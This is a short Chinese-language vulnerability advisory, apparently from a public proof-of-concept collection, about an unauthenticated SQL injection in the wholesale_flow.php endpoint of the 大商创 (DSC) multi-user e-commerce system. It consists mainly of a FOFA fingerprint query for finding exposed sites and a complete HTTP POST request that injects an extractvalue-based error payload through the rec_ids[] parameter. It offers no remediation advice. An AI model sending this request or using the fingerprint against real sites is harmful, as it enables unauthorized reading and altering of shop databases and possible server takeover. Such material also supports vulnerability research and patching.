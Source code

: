 # 大商创多用户商城wholesale_flow.php存在SQL注入漏洞

大商创多用户商城系统 wholesale_flow.php接口处存在SQL注入漏洞，未经身份验证攻击者可通过输入恶意 SQL 代码，突破系统原本设定的访问规则，未经授权访问、修改或删除数据库中的各类敏感信息，包括但不限于员工个人资料、企业核心业务数据等。进一步利用可获取服务器权限。

## fofa

```
body="dsc-choie"
```

## poc

```javascript
POST /wholesale_flow.php?step=ajax_update_cart HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
 
rec_ids[]=extractvalue(1,concat(0x7e,version()))
```

![image-20241019201036088](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251431588.png)



